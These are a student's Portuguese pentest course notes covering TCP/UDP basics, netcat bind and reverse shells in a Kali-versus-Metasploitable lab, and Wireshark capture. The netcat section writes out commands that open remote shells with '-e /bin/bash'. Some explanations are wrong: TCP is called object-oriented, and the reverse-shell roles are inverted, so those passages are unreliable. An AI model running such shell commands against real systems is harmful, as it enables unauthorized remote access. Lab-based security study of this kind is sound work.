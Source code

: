 # Minhas anotações sobre o Curso de Pentest Womcy

## 09/08 - Resumo

### TCP/IP - conceitos básicos
O TCP é um protocolo orientado a objeto - confiável

Funciona enviando 3 pacotes para abrir a comunicação o three way handshake e para finalizar a comunicação envia 4 pacotes
(detalhar cada pacote)

Ele prioriza a não perder pacotes

UDP - considerado como não confiável
Utilizado em situações que a velocidade é importante mas a perca de pacote não
Ex.: Serviços de voz, streaming, video conferência, serviços de resolução de nomes(DNS)

Algumas vezes ambos podem ser combinados exemplo chat e video em uma chamada do Microsoft Teams

Segue um exemplo de portas sobre cada um dos protocolos:https://pt.wikipedia.org/wiki/Lista_de_portas_dos_protocolos_TCP_e_UDP

### Conexão via bind shell e reverse shell - NetCat
Pré-requisitos: Comandos básicos do linux

Ajuda do netcat:
```
nc -h
```

Na aula de hoje comentamos o arquivo de interfaces /etc/network/interfaces
Estando da seguinte maneira
```
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet dhcp
auto eth1
iface eth1 inet static
        address 192.168.11.110
#       gateway 192.168.11.1
        netmask 255.255.255.0
```

Assim conseguiremos a comunicação da rede externa em nossa placa NAT (eth0) e na rede interna inet (eth1)

Reiniciando o serviço de rede da máquina ou a própria máquina

Na máquina do metaspolitable executamos(vítima)
nc -nvlp 1000

Para abrir a comunicação e ficar "ouvindo" essa porta

o mesmo realizamos na maquina atacante kali

sudo nc <ipSemSinaisdaMaquina> 1000

Assim temos a comunicação entre máquinas
  
No entanto, temos somente essa conexão e queremos a execução de um programa remoto(bindshell)

Na máquina vítima, executamos então 
nc -nvlp 1000 -e /bin/bash

No atacante(idem anterior):
  sudo nc 192.168.10.130 1000
  
  
Reverse shell - Posso fazer a minha vítima se conectar em mim e termos um acesso 
Na máquina atacante:
  nc <ipvitima> 1000 -e /bin/bash

  Na máquina vítima:
nc -nlp 100 -v
  
Sendo assim bem díficil de ser detectado tal

Mais informações em: https://github.com/dantesilva/curso-tecnicas-pentest/blob/main/Bind-and-reverse-shell.md do mestre @dantesilva
  
Em suma uma ferramenta do tipo canivete suíço, seja após um acesso na vítima realizado com sucesso ou como uma ferramenta no dia a dia, diante uma impossibilidade de acesso

## 11/08 - Resumo

### Wireshark
Se trata de um analisador de protocolos, capturando na rede as informações trafegadas, uma espécie de Sniffer(como um cão farejador), estando entre as 5 melhores juntamente com o TCPDump e outras

Ele pode ser executado tanto via terminal como no servidor gráfico. Um dos seus cores é a libpcap, tendo assim compatibilidades com demais ferramentas
        
Iniciamos abrindo o Wireshark e selecionando a placa de rede de onde queremos capturar pacotes
![image](https://user-images.githubusercontent.com/25257860/129117367-b89097a4-69be-4f37-bb59-06b5f5df1582.png)
        
Selecionamos assim a eth0 que é nossa placa configurada em uma rede NAT do virtualbox e tem acesso a internet
        
Para gerar tráfego de rede acessamos o Firefox e alguns sites, podendo assim observar as conexões do three way handshake
![image](https://user-images.githubusercontent.com/25257860/129118655-8b6a70eb-64bc-45d4-a431-bfea271938c4.png)
        
![image](https://user-images.githubusercontent.com/25257860/129119034-840d05be-b9a7-453e-9a81-2523e5ccf75e.png)

Com o botão direito em uma das conexões, podemos clicar em follow e ver os detalhes
![image](https://user-images.githubusercontent.com/25257860/129121930-ada531f8-af2e-4ba9-a9b7-0db8832577df.png)

Exemplo de uma conexão ssh filtrando pela porta
![image](https://user-images.githubusercontent.com/25257860/129122170-653846ae-7198-46f8-836b-d2575a59ce39.png) 
        
encontrando assim uma vulnerabilidade expondo a versão do ssh
![image](https://user-images.githubusercontent.com/25257860/129122206-27327636-fd91-4cc4-a6ca-b2abaee3dff9.png)
